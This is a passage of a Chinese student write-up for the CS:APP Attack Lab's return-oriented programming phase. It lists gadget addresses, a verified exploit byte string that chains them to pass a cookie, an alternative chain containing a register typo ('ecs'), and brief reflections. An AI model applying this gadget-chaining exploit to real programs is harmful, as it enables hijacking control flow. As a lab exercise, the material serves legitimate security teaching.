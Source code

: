 ```asm
0x401a06:
	mov %rsp, %rax
	retq
0x4019a2:
	mov %rax, %rdi
	retq
0x401383:
	pop %rsi
	retq
0x4019d6:
	lea (%rdi, %rsi, 1), %rax
	retq
```

则答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 //0x401a06
a2 19 40 00 00 00 00 00 //0x4019a2, %rdi = rax = rsp
83 13 40 00 00 00 00 00 //将栈顶元素pop至rsi
30 00 00 00 00 00 00 00	//rsi = 0x30
d6 19 40 00 00 00 00 00 //rax = rdi + rsi
a2 19 40 00 00 00 00 00 //rdi = rax
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```

经验证后答案正确



2.改进：

```
使用pop rax而不是pop rsi，前者可在farm范围内找到，地址为0x4019ab
将偏移地址存储到rax后
movl eax, edx
movl edx, ecx
movl ecs, rsi
即可将rax的值传递到rsi
之后的过程与上述相同
```



## 3.实验心得

+ 感觉都不难，但是phase1,2,3,5都没有独立完成，phase4想了很久，完成98%，最后因一对数字混乱而出错很遗憾
+ [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 有机会可以学一学
+ 不止实验提到的farm内的地址可以作为gadget，任何一个地址只要组合得当都可以得到类似的结果，应放开眼界